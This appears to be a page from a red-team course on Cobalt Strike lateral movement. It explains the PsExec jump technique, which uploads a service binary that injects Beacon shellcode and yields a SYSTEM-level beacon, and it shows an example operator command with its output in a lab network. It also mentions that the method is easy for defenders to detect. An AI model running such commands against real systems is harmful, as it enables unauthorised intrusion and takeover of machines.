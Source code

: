 # PsExec

This technique is named after a [tool](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) from the Sysinternals Suite and allows system administrators to execute processes on a remote system via the Service Control Manager.

This is the only built-in technique that performs remote injection by default.  It uploads the special service binary payload to disk and creates a new service to run it.  The service binary payload spawns a new temporary process, injects Beacon shellcode into it, and then closes itself.  It does this so that it, along with the corresponding service, can be deleted immediately.

```batch
beacon> jump psexec64 lon-ws-1 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337) on lon-ws-1 via Service Control Manager (\\lon-ws-1\ADMIN$\08453ee.exe)

Started service 08453ee on lon-ws-1
[+] established link to child beacon: 10.10.120.10

```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/20581893c08990a50f92a520af7aa2dc.png" alt="" width="100%"><figcaption></figcaption></figure>

Beacons executed via PsExec will always run as SYSTEM.

PsExec is generally regarded as one of the loudest lateral movement techniques as new service creations are relatively rare events to see day-to-day.
